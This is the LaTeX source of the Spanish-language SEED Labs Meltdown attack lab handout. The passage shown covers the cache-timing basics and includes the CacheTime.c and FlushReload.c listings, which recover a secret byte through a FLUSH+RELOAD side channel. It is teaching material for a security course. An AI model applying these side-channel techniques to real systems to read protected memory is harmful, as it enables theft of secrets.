%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{hyperref}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{
Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net}.\xspace}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

%% Lab Environment
\newcommand{\seedenvironment}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentA}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentB}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED .\xspace}

\newcommand{\seedenvironmentC}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED. Sin embargo, la mayoría de nuestros laboratorios pueden ser realizados en la nube para esto Ud. puede leer nuestra guía que explica como crear una VM de SEED en la nube.\xspace}

\newcommand{\seedenvironmentAB}{
Este laboratorio ha sido testeado en nuestras imagenes pre-compiladas de una VM con Ubuntu 16.04 y otra con Ubuntu 20.04, que pueden ser descargadas del sitio oficial de SEED.\xspace}

\newcommand{\nodependency}{Dado que utilizamos contenedores para configurar el entorno de laboratorio, este laboratorio no depende estrictamente de la VM de SEED. Puede hacer este laboratorio utilizando otras máquinas virtuales, máquinas físicas o máquinas virtuales en la nube.\xspace}

\newcommand{\adddns}{You do need to add the required IP address mapping to
the \texttt{/etc/hosts} file.\xspace}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      Este trabajo se encuentra bajo licencia Creative Commons.
       Attribution-NonCommercial-ShareAlike 4.0 International License.
       Si ud. remezcla, transforma y construye a partir de este material,
       Este aviso de derechos de autor debe dejarse intacto o reproducirse de una manera que sea razonable para el medio en el que se vuelve a publicar el trabajo.
       }}
\vspace{0.1in}
}







\lhead{\bfseries SEED Labs -- Laboratorio del Ataque Meltdown }
\newcommand{\meltdownFigs}{./Figs}


\begin{document}

\begin{center}
{\LARGE Laboratorio del Ataque Meltdown}
\end{center}

\seedlabcopyright{2018}


% *******************************************
% SECTION
% ******************************************* 
\section{Introducción}

Descubierta en el 2017 y publicada en Enero del 2018, los fallas que explotan la vulnerabilidad Meltdown se abusan de un fallo crítico que existen en muchos procesadores modernos, incluyendo procesadores Intel y ARM \cite{Lipp2018meltdown}. 
Estas vulnerabbilidades permiten que un programa que corre con privilegios de usuario lean datos guardados dentro de la memoria del kernel. Este tipo de acceso no es permitido por las protecciones de hardware en la mayoría de los CPUs, pero existe una vulnerabilidad en el diseño de estos procesadores que permiten evadir esta protección. Dado que esta vulnerabilidad existe a nivel de hardware, es muy difícil resolver el problema de raíz, al menos que se cambie el procesador de la PC. La vulnerabilidad Meltdown representa un tipo especial de falla en el diseño de los CPUs, junto con la vulnerabilidad Spectre, nos proveen una invaluable lección para la educación de la seguridad.

\underline{Objetivos del Aprendizaje} El objetivo de este laboratorio es que los estudiantes puedan aprender y logren experiencia en el Ataque Meltdown. El ataque por sí mismo es algo sofisticado, es por eso que para una mejor compresión del mismo y de como atacarlo, lo hemos fragmentado en pequeños pasos. Una vez que los estudiantes entiendan cada uno de los pasos, no debería de resultarles difícil reunir todos los elementos y proceder a realizar el ataque. Los estudiantes usarán el Ataque Meltdown para mostrar en pantalla/obtener e imprimir un dato secreto guardado dentro del kernel. 

Este laboratorio cubre los siguientes tópicos:

\begin{itemize}[noitemsep]
\item Ataque Meltdown 
\item Ataque Side channel 
\item CPU Caching
\item Ejecución fuera de orden dentro de la microarquitectura del CPU
\item Protección de memoria en el kernel a nivel Sistema Operativo
\item Módulos del Kernel
\end{itemize} 


\paragraph{Lecturas y Videos.}
Para una cobertura más detallada sobre el ataque Meltdown puede consultar:

\begin{itemize}
\item Capítulo 13 del libro de SEED, \seedbook
\item Sección 8 del curso de SEED en Udemy, \seedcsvideo
\end{itemize}



\paragraph{Entorno de Labooratorio.} \seedenvironment Dentro de la Máquina Virtual de SEED que corre Ubuntu 20.04, las tareas de la 1 a la 6 funcionarán como se espera, pero las tareas 7 y 8 no lo harán debido a la protección implementada en el sistema operativo.

Al usar este laboratorio, los instructores deberán tener en cuenta lo siguiente:
Primero, la vulnerabilidad de Meltdown es una falla dentro de los CPUs Intel, por lo que sí la máquina de un estudiante se encuentra corriendo un procesador AMD el ataque no funcionará. 
Segundo Intel está trabajando para solucionar este problema en sus CPUs, por lo que si la máquina de un esttudiante usa un procesador nuevo de Intel el ataque puede no funcionar. Esto no es un problema por ahora (Febrero 2018), pero de acá a 6 meses es posible que la situación cambie.
Tercero, aunque la mayoría de los estudiantes tengan máquinas parcheadas, el ataque es realizado dentro de nuestras Máquinas Virtuales las cuales no lo están, por lo que el ataque será efectivo.
Los estudiantes no deben de actualizar el sistema operativo de sus Máquinas Virtuales debido a que las actualizaciones puedan llegar a parchear esta vulnerabilidad y el ataque ya no será exitoso.


\paragraph{Agradecimientos} Este laboratorio ha sido desarrollado con la ayuda de 
Hao Zhang y Kuber Kohli, estos estudiantes son estudiantes graduado en el Departamento de Ingeniería Electrónica y Ciencias de la Computación de la Universidad de Syracuse.



% *******************************************
% SECTION
% *******************************************
%\section{Lab Environment Setup}
%\section{Tasks 1-2: Side Channel Attacks}

\newcommand{\sideChannelFigs}{./Figs}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% *******************************************
% SECTION
% *******************************************
\section{Compilación del Código}
\label{sidechannel:sec:compilation}

Para la mayoría de nuestras tareas, necesitará agregar la opción \texttt{-march=native} a la hora de copilar el código con \texttt{gcc}. La opción \texttt{march} le indica al compilador que debe activar todas el conjunto de  instrucciones soportadas por la máquina en donde se va a ejecutar este código.
Por ejemplo, compilaremos \texttt{myprog.c} usando el siguiente comando:

\begin{lstlisting}
$ gcc -march=native -o myprog myprog.c
\end{lstlisting}



% *******************************************
% SECTION
% ******************************************* 
\section{Tarea 1 y 2: Ataque de Side Channel usando la caché del CPU}

Los ataques Meltdown y Spectre usan la caché del CPU como side channel (canal encubierto) para robar información que se supone protegida. La técnica usada en este ataque de side channel se llama FLUSH+RELOAD~\cite{Yarom2014}. 
Primero estudiaremos esta técnica. El código desarrollado en las tareas siguientess serán usados como base para futuras tareas.

La caché del CPU es una caché a nivel hardware usada por la CPU de una computadora para reducir el tiempo promedio de acceso a los datos en la memoria principal. Aceder a los datos en la caché del CPU es mucho más rápido que hacerlo en la memoria principal. Cuando los datos son obtenidos de la memoria principal por lo general son cacheados por la CPU, por lo que si se esos datos se usan nuevamente el tiempo de acceso será mucho más rápido. Ademas cuando la CPU necesita acceder a cierta porción de datos, primero busca en su caché. Si los datos están ahí (caché hit) serán obtenidos directtamente de esa caché de otra forma la CPU irá a la memoria principal para obtenerlos. El tiempo que se usa en la última operación es significativamente más alto. La mayoría de los CPUs modernos poseen estas caches.


\begin{figure}[htb]
\centering

\includegraphics[width=0.9\textwidth]{\sideChannelFigs/cachehitmiss.pdf}
\caption{Cache hit and miss}
\label{sidechannel:fig:cachehitmiss}
\end{figure}


\subsection{Tarea 1: Leyendo de la caché vs Memoria }

La memoria caché es usada por los procesadores para acelerar el tiempo de acceso a los datos. Las memorias caches son más rapidas en comparación a la memoria principal.
Veamos el tiempo diferencial. En el siguiente código (\texttt{CacheTime.c}), tenemos un arreglo de tamaño \texttt{10*4096}. Primero accedemos a dos de sus elementos \texttt{array[3*4096]} y \texttt{array[7*4096]}. Lás páginas que contienen estos dos elementos serán cacheadas. Luego procederemos a leer los elementos desde \texttt{array[0*4096]} hasta \texttt{array[9*4096]} y medireos el tiempo de lectura usado en la memoria.
La Figura \ref{sidechannel:fig:cachehitmiss} ilustra la diferencia.
En la Línea \ding{192} del código usado se realiza la lectura del contador del timestamp del CPU (TSC) antes de que realizar la lectura en memoria, mientras que en la Línea \ding{193} se lee el contador después de realizar la lectura en memoria. La diferencia de tiempo (expresada en el números de ciclos de CPU), representa el tiempo de lectura en memoria.
Cabe destacar que el proceso de cacheo se hace a nivel bloque, no a nivel de byte. El tamaño habitual de un bloque de caché son 64 bytes. Hemos usado \texttt{array[k*4096]}, para que los dos elementos que son cacheados no estén ubicados en el mismo bloque de la caché. 


\begin{lstlisting}[caption=\texttt{CacheTime.c}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[10*4096];

int main(int argc, const char **argv) {
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  
  // Initialize the array
  for(i=0; i<10; i++) array[i*4096]=1;

  // FLUSH the array from the CPU cache
  for(i=0; i<10; i++) _mm_clflush(&array[i*4096]);

  // Access some of the array items
  array[3*4096] = 100;
  array[7*4096] = 200;

  for(i=0; i<10; i++) {
    addr = &array[i*4096];
    time1 = __rdtscp(&junk);                  (*@\ding{192}@*)
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;          (*@\ding{193}@*)
    printf("Access time for array[%d*4096]: %d CPU cycles\n",i, (int)time2);
  }
  return 0;
}
\end{lstlisting}

Por favor compile el siguiente código usando \texttt{gcc -march=native
CacheTime.c} y ejecútelo. ¿Es más rápido acceder a \texttt{array[3*4096]} y \texttt{array[7*4096]} que acceder a otros elementos? Debe ejecutar el programa al menos 10 veces y describir sus observaciones. Dado este experimento debe de encontrar un valor umbral que pueda ser usado para distinguir entre estos dos tipos de acceso en memoria: acceder a los datos desde la caché versus acceder a los datos desde la memoria principal. Este umbral es importante para el resto de las tareas en este laboratorio.

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 2: Usando la caché como Side Channel}


\begin{figure}[htb]
\centering

\includegraphics[width=0.9\textwidth]{\sideChannelFigs/flushreload.pdf}
\caption{Ataque Side Channel}
\label{sidechannel:fig:flushreload}
\end{figure}

El objetivo de esta tarea es usar el side channel para extraer un valor secreto usado por la función víctima. Asuma que existe una función víctima que usa un valoor secret como índice para cargar algunos valores de un arreglo. También asuma que ese valor secreto no puede ser accedido desde afuera. Nuestro objetivo es usar side channels para obtener este valor secreto. Esta técnica llamada FLUSH+RELOAD~\cite{Yarom2014}. Figura \ref{sidechannel:fig:flushreload} ilustra esta técnica que se conforma en tres pasos:

\begin{enumerate}[noitemsep]

\item Hace un FLUSH de todo el arreglo en la memoria caché para asegurarse que el arreglo no este cacheado.

\item Invoca la función víctima, que accede a uno de los elementos del arreglo basado en el valor del secreto. Esta acción provoca que este elemento sea cacheado.

\item Hace un RELOAD de todo el arreglo y mide el tiempo que toma en hacer el reload por cada uno de los elementos que contiene el arreglo. Si el tiempo de carga de un elemento específico del arreglo es más rápido, lo más probable es que ese elemento este dentro de la ache.
Este elemento debe ser el que usa la función víctima. 
Debemos de averiguar cual es su valor secreto.
\end{enumerate}

El siguiente programa usa la técnica FLUSH+RELOAD para encontrar un valor secreto de 1 byte ubicado en la variable \texttt{secret}. Dado que existen 256 valores posibles para un secreto de 1 byte, necesitamos mapear cada valor en un elemento diferente dentro del arreglo. La forma naive de hacer es definir un arreglo de 256 ellementos (es decir \texttt{array[256]}). Sin embargo, esto no va a funcionar. El cacheo se hace a nivel blooque, no a nivel bbyte. Si se accede a \texttt{array[k]} un blooque de memoria que contiene este elemento será cacheado junto con los elementos adyacentes del arreglo \texttt{array[k]}, dificultando la inferencia de cual es el valor secreto.
Para solucionar este problema, hemos creado un arreglo de \texttt{256*4096} bytes, dado que \texttt{4096} es mucho mayor en tamaño que el bloque default de la caché (64 bytes), de esta forma nos aseguramos que no existan elementos adyacentes en el mismo bloque por lo que \texttt{array[i*4096]} y \texttt{array[j*4096]} estarán en diferentes bloques.

Dado que  \texttt{array[0*4096]} puede caer en el mismo bloque de caché que las variables de memoria adyacentes, puede ser accidentalmente cacheado durante el proceso de cacheo de esas variabbles. Por otro lado debemos evitar usar  \texttt{array[0*4096]} en el método de FLUSH+RELOAD (para otro índice \texttt{k}, \texttt{array[k*4096]} no hay problema).
Para hacer esto consistente dentro del programa, usamos \texttt{array[k*4096 + DELTA]} para todos los valores \texttt{k} donde \texttt{DELTA} es una constante ya definida con el valor \texttt{1024}. 


\begin{lstlisting}[caption=\texttt{FlushReload.c}, label={sidechannel:list:flushreload}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[256*4096];
int temp;
unsigned char secret = 94;

/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;


  // Flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void victim()
{
  temp = array[secret*4096 + DELTA];
}

void reloadSideChannel() 
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
     addr = &array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
         printf("The Secret = %d.\n",i);
     }
  }	
}

int main(int argc, const char **argv) 
{
  flushSideChannel();
  victim();
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


Por favor compile el programa usando \texttt{gcc} ejecútelo (Vea la Sección \ref{sidechannel:sec:compilation} para las instrucciones de compilación).
Debe de nootar que esta técnica no es 100\% precisas y puede que los resultados que observa no sean los esperados en muchas instancias de su ejecución.
Ejecute el programa al menos 20 veces y cuenta cuantas veces obtiene el valor secreto de forma correcta. Puede ajustar el valor umbral \texttt{CACHE\_HIT\_THRESHOLD} al usado en la Tarea 1 (en este código se usa 80).






% *******************************************
% SECTION
% ******************************************* 
\section{Tarea 3-5: Preparación para el Ataque Meltdown}

La isolación de memoria es uno de los fundamentos principales en la seguridad de los sistemas. En la mayoría de los sistemas operativos, la memoria del kernel no se puede acceder directamente desde programas que son ejecutados en el espacio de usuario. Esta isolación se logra por medio de un bit (el bit supervisor) en el proesador que define cuando una página de memoria del kernel puede ser o no accedida. Este bit es seteado cuando la CPU entra en el espacio del kernel y se borra cuando este salta al espacio de usuario (\cite{wiki:protectionring}).
A través de este mecanismo el kernel puede asignar de manera segura el espacio de direcciones a cada uno de los procesos, por lo que la tabla de páginas no necesita cambiar cuando un programa del espacio de usuario cambia al espacio del kernel.
